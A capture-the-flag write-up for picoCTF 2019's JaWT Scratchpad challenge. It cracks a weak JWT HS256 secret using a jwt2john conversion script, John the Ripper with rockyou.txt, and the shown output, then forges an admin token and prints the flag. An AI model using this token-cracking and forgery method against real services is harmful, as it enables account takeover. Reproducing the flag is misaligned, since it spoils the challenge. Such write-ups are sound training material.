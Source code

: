 # JaWT Scratchpad - Points: 400

1. First, lets go through the website : https://2019shell1.picoctf.com/problem/21893/
2. Then, I type "123" to login. 
3. Next, I check my cookie and see : 
    ```
    jwt : 
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiMTIzIn0.jgZBxsEy_Mq68jv7XDm-sQr1BUOMHuV8c4dUIxHMT2k
    ```
    So, I google "jwt decode" and I get the result : 
    ```
    header : 
        {
          "typ": "JWT",
          "alg": "HS256"
        }
        
    payload : 
        {
          "user": "123"
        }
    ```
4. Then, I see : 
    ```
    Register with your name!
    You can use your name as a log in, because that's quick and easy to remember! 
    If you don't like your name, use a short and cool one like John!
    ```
    So, I click john and find out it is a tool that can crack password.
5. Next, I google "jwt john the ripper" and here is the website that can help : https://security.stackexchange.com/questions/134200/cracking-a-jwt-signature Here is the python code : 
    ```
    import sys
    from jwt.utils import base64url_decode
    from binascii import hexlify


    def jwt2john(jwt):
        """
        Convert signature from base64 to hex, and separate it from the data by a #
        so that John can parse it.
        """
        jwt_bytes = jwt.encode('ascii')
        parts = jwt_bytes.split(b'.')

        data = parts[0] + b'.' + parts[1]
        signature = hexlify(base64url_decode(parts[2]))

        return (data + b'#' + signature).decode('ascii')


    if __name__ == "__main__":
        if len(sys.argv) != 2:
            print("Usage: %s JWT" % sys.argv[0])
        else:
            john = jwt2john(sys.argv[1])
            print(john)
    ```
    After I use the script, the result is : 
    ```
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiMTIzIn0#8e0641c6c132fccabaf23bfb5c39beb10af505438c1ee57c7387542311cc4f69
    ```
6. Then I use john the ripper to crack the secret key : 
    ```
    john jwt.john --wordlist=rockyou.txt
    ```
    And the result is : 
    ```
    Using default input encoding: UTF-8
    Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ilovepico        (?)
    1g 0:00:00:02 DONE (2020-01-03 21:04) 0.3558g/s 2635Kp/s 2635Kc/s 2635KC/s ilovetitoelbambino..ilovejesus71
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

    ```
    The secret key is "ilovepico"
7. So, we use the website : https://jwt.io/ and change the "user" to "admin" and the secret key to "ilovepico" then refresh the page. 
8. Here is the flag : picoCTF{jawt_was_just_what_you_thought_c84a0d3754338763548dfc2dc171cdd0}
